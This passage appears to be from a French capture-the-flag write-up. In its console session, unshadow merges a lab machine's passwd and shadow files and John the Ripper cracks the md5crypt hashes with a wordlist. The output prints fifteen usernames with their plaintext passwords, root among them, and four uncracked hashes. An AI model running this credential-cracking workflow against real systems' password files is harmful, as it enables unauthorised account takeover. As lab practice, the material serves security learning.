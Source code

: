 ```console
root@blinils:~# unshadow passwdCTF8.txt shadowCTF8.txt > etccreds.db

root@blinils:~# john etccreds.db --wordlist=../dicts/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 19 password hashes with 19 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
michelle         (jalderman)
passw0rd         (bdio)
football123      (spinkton)
letmein!         (jharraway)
changeme123      (mswanson)
Drag0n           (sholden)
thing1thing2     (root)
stupidpassword   (dhart)
12twelve12       (shunter)
georgerules      (gprune)
broney           (tmaloney)
workpass         (jgrimes)
sellsellsell     (sswiney)
1unicorn1        (sloreman)
14g 0:00:41:32 DONE (2018-12-12 12:12) 0.005616g/s 5752p/s 38354c/s 38354C/s       7..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
```

Seuls les mots de passe de ```jgoldman```, de ```jingersol```, de ```jstone``` et de ```xbruce``` résistent encore et toujours à l'envah\^W\^W John The Ripper.

```console
root@blinils:~# john etccreds.db
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 19 password hashes with 19 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Remaining 5 password hashes with 5 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
MasterMaster     (hplink)
1g 0:00:01:14  3/3 0.01345g/s 9809p/s 39962c/s 39962C/s 254230..254225
Use the "--show" option to display all of the cracked passwords reliably
Session aborted

root@blinils:~# john etccreds.db --show=left
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
jgoldman:$1$9RY2iB2c$LlD4Q0sKNm9xte7rE7Rwe0
jingersol:$1$Q8SgQwJQ$oziDoU20KBQOCA2SiZGv81
jstone:$1$tITesQJm$yxQjQrgbEBgIXbzaf6PWM1
xbruce:$1$BaCfmLl6$7k5Et1qS.SK3Xn5nggWT/.

15 password hashes cracked, 4 left
```
